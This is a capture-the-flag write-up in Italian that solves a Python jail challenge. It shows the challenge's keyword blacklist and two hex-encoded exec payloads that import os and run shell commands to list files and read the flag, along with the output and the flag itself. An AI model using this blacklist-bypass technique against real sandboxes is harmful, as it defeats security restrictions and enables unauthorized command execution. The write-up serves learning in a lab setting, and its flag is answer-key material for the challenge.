

# Sandbox-v1.py

### Challenge:
##### Ho fatto questa sandbox in python, ho messo in una blacklist tutte le parole pericolose, ora non dovrebbe esserci modo di leggere il file con la flag.

##### Puoi collegarti al servizio remoto con:
##### ```nc sandbox_v1.challs.olicyber.it 35003```

##### Files: [sandbox-v1.py](sandbox-v1.py)

### Solution:
Una semplice pyjail con una blacklist, inoltre non abbiamo open builtin:

```python
# keep all the builtins except open
safe_builtins = {
	k:v for k,v in __builtins__.__dict__.items() if k != "open" 
}
blacklist = ['import', 'os', 'system', 'subproces', 'sh', 'flag']
```

Per bypassare la blacklist ho optato per utilizzare la rappresentazione esadecimale delle varie lettere.
```bash
$ nc sandbox_v1.challs.olicyber.it 35003
Python 3.10.12 (main, Jun 11 2023, 05:26:28) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
(RestrictedConsole)
>>> exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x6c\x73\x27\x29")
chall
flag
>>> exec("\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x63\x61\x74\x20\x66\x6c\x61\x67\x27\x29")
flag{LOWER_upper_3scap3_Fr0m_j@il}
```

I due payload corrispondono rispettivamente a:

```python
__import__('os').system('ls')
__import__('os').system('cat flag')
```

Flag: ```flag{LOWER_upper_3scap3_Fr0m_j@il}```
